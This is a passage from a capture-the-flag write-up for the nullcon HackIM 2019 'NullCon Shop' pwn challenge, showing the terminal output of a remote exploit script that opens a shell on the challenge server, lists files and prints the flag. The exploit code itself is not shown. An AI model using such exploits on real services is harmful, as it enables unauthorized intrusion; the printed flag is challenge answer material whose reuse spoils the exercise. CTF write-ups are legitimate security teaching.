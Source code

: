 and when we run the remote exploit:

```
$ python exploit.py
[+] Opening connection to pwn.ctf.nullcon.net on port 4002: Done
NullCon Shop
(1) Add book to cart
(2) Remove from cart
(3) View cart
(4) Check out

. . .

$ w
 18:51:13 up 7 days,  3:10,  0 users,  load average: 0.03, 0.13, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ ls
challenge
flag
$ cat flag
hackim19{h0p3_7ha7_Uaf_4nd_f0rm4ts_w3r3_fun_4_you}
$ w
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to pwn.ctf.nullcon.net port 4002
```

Just like that, we get the flag `hackim19{h0p3_7ha7_Uaf_4nd_f0rm4ts_w3r3_fun_4_you}`


